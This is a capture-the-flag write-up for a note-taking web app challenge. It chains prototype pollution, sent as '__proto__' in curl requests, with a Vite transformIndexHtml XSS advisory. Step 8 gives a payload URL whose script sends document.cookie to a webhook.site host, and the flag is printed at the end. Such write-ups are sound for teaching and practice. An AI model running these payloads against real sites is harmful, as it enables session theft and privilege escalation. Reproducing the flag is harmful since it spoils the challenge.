





# Armoured-notes
## Description

Can you break my emerging note making app? It is still in beta. I have a feeling that it is not secure enough

Author - p1r4t3 aka me :)

## Writeup

1. On launching the challenge we land at a homepage which has fields for username,password and a note, seems like an ordinary xss?



<hr>

2. On reading the source provided we get to know that only user with name 'admin' can login with his supersecure password which obviously we can not know as it is a environment variable. So what do we do ?



3. On looking closely we see that a dangerous duplicate function is being used which copies all properties of request body to another object without checking the keys.
This gives rise to a well known JS vulnerability "Prototype Pollution". Read more about it <a href="https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution">here</a>.

4. Also on reading the source further we find that before saving the note a special property 'isAdmin' is set to 'True' after which the note gets saved in the database. Maybe we will get the xss now?

```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"asdf","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```


5. After creating the note we get a specific note id and a link to access the note. Suppose we try our old xss payload and go to http://localhost:3000/post/<:id>

```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"<script>alert()</script>","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```


6. And... Tada nothings happens :)


7. On looking further we find a escapeHtml function which doesnot allow any dangerous character to be inserted in the note. So now what?. We look into source futher and we see an interesting function "transformIndexHtml". On reading further about it we can find <a href="https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title"> this </a> . :) Looks like we are done.


8. Lets give this link to our admin bot :) and get the flag
```bash
http://localhost:3000/posts/657c83681afbebe2ea01432d/?%22%3E%3C/script%3E%3Cscript%3Efetch(`https://webhook.site/566eb0b9-796b-48d6-bcd5-fbb9584eee71?${document.cookie}`)%3C/script%3E
```



9. A ratelimiter was configured to block you from making more than 100 requests in 60 minutes (enough to annoy you :)

```bash
flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}
```